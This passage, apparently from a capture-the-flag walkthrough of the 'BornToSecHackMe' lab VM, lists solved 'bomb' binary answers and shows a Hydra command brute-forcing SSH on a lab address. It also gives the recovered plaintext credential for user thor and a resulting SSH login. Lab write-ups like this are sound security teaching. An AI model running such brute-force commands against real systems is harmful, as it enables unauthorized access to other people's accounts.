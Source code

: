 ```c
    iVar4 = iVar4 + 1;
  } while (iVar4 < 5);
  return;
}
```











To resume:
```
Public speaking is very easy.
1 2 6 24 120 720
0 q 777
9
opuKMA
4 2 6 3 1 5
```

We now have a list of the possible results, and we will use [Hydra](https://www.freecodecamp.org/news/how-to-use-hydra-pentesting-tutorial) to bruteforce the SSH service with this wordlist:

```shell
┌──(fab㉿kali)-[~]
└─$ hydra -l thor -P wordlist.txt 192.168.56.101 ssh
<SNIP>

```

Our credentials are:
```
thor:Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

what's confirmed by the given hints:
```
HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

and we can connect via SSH as user thor:
```shell
┌──(fab㉿kali)-[~]
└─$ ssh thor@192.168.56.101
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
thor@192.168.56.101's password:
thor@BornToSecHackMe:~$ ls -la
total 37
drwxr-x--- 3 thor     thor   129 Oct 15  2015 .
drwxrwx--x 9 www-data root   126 Oct 13  2015 ..
-rwxr-x--- 1 thor     thor     1 Oct 15  2015 .bash_history
```